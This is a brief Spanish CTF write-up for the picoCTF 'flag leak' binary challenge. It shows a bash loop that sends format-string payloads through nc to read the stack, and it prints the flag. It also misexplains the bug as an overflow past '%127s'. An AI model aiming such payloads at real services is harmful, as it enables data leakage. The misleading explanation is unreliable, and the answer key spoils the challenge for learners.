 # flag leak

# Objetivo
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 50092`

# Pistas
- Format Strings

# Solución
- Iniciamos la instancia
- Decargamos el programa y el codigo fuente
- Creamos el archivo flag.txt que necesita el programa para ir probando
- Le damos permisos de ejecución al programa
- Como el buffer de entrada de la historia esta echo con "%127s" hacemos bucle for el cual se conecte al nc y valla probando poner mas caracteres de los que puede soportar y con esto obtener la bandera
```
┌──(kali㉿kali)-[~/picoctf/binary-explotation/flagleak]
└─$ for i in {0..200}; do echo "%$i\$s" | nc saturn.picoctf.net 54660 | grep -Ei ctf; done 
CTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
^C
                                                                                                                                                                      
┌──(kali㉿kali)-[~/picoctf/binary-explotation/flagleak]
└─$
```
- A esto ya solo le agregamos el pico...

# Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()